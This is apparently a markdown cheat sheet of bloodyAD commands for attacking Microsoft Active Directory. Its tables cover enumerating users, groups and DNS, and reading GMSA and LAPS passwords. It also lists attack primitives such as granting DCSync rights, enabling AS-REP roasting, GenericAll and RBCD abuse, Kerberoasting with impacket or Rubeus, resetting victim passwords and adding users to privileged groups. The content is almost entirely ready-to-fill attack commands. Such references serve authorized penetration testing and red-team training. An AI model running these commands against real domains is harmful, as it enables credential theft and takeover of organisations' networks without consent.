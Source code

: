 | Purpose                           | Command snippet                                                      |
| --------------------------------- | -------------------------------------------------------------------- |
| Dump a single object’s attributes | `bloodyAD ... get object '<DistinguishedName>' --attr attr1,attr2`   |
| List all users                    | `bloodyAD ... get children 'DC=corp,DC=local' --type user`           |
| Get group members                 | `bloodyAD ... get object 'Domain Admins' --attr member`              |
| Dump DNS records                  | `bloodyAD ... get dnsDump`                                           |
| Read GMSA password                | `bloodyAD ... get object 'gmsaAcct$' --attr msDS-ManagedPassword` [] |
| Read LAPS (ms-Mcs-AdmPwd)         | `bloodyAD ... get object 'HOSTNAME$' --attr ms-Mcs-AdmPwd`           |

---

## ⚔️ Attack primitives

| Attack                               | Command snippet                                                             |
| ------------------------------------ | --------------------------------------------------------------------------- |
| Enable **ASREP** roast on a user     | `bloodyAD ... add uac targetUser DONT_REQ_PREAUTH`                          |
| Remove disable flag from user        | `bloodyAD ... remove uac targetUser ACCOUNTDISABLE`                         |
| Trigger **DCsync**                   | `bloodyAD ... add dcsync targetUser`                                        |
| Give **GenericAll** on object        | `bloodyAD ... add genericAll victimObject attackerUser`                     |
| Configure **RBCD** (S4U2proxy abuse) | `bloodyAD ... add rbcd TARGET_HOST$ attackerUser`                           |
| Kerberoast SPNs                      | _(collect with impacket’s `GetUserSPNs.py` then roast)_                     |
| ASREP roast                          | _(use Rubeus or Impacket’s `GetNPUsers.py` after setting DONT_REQ_PREAUTH)_ |

---

## 🛠️ Modification (`add` / `remove` / `set`)

| Change                       | Command snippet                                             |
| ---------------------------- | ----------------------------------------------------------- |
| Add a computer to the domain | `bloodyAD ... add computer NewPC$                           |
| Add a DNS record             | `bloodyAD ... add dnsRecord hostName 192.168.1.50`          |
| Remove a DNS record          | `bloodyAD ... remove dnsRecord hostName 192.168.1.50`       |
| Set an attribute value       | `bloodyAD ... set object Target$ attributeName -v newValue` |
| Change a user’s password     | `bloodyAD ... set password victimUser NewP@ssw0rd!`         |
| Add user to a group          | `bloodyAD ... add groupMember 'Group Name' victimUser`      |